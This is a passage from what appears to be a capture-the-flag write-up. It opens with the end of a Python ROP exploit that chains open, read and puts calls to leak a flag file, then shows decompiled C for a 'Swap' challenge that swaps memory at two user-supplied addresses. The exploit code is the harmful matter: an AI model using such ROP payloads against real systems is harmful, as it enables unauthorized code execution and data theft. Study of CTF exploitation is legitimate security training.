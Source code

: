 ```python
payload += call_open

# open and read ./flag.txt
payload += pop_rdi(bss_area + len(file1 + file2))
payload += pop_rsi(0)
payload += call_open
payload += pop_rdi(2)
payload += pop_rsi(0x601000)
payload += call_read

# puts flag
payload += pop_rdi(0x601000)
payload += call_puts

p.sendline(str(len(payload)))
p.sendline(payload)
p.interactive()
```

## Swap

The binary is straight forward:
```c
// local variable allocation has failed, the output may be wrong!
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  __int64 *v4; // [rsp+10h] [rbp-20h]
  __int64 *v5; // [rsp+18h] [rbp-18h]
  __int64 v6; // [rsp+20h] [rbp-10h]
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  initialize(*(_QWORD *)&argc, argv, envp);
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu();
      v3 = read_int();
      if ( v3 != 2 )
        break;
      v6 = *v4;
      *v4 = *v5;
      *v5 = v6;
      v6 = 0LL;
    }
    if ( v3 == 3 )
    {
      printf("Bye. ");
      _exit(0);
    }
    if ( v3 == 1 )
    {
      puts("1st address: ");
      __isoc99_fscanf(stdin, "%lu", &v4);
      puts("2nd address: ");
      __isoc99_fscanf(stdin, "%lu", &v5);
    }
    else
    {
      printf("Invalid choice. ");
    }
```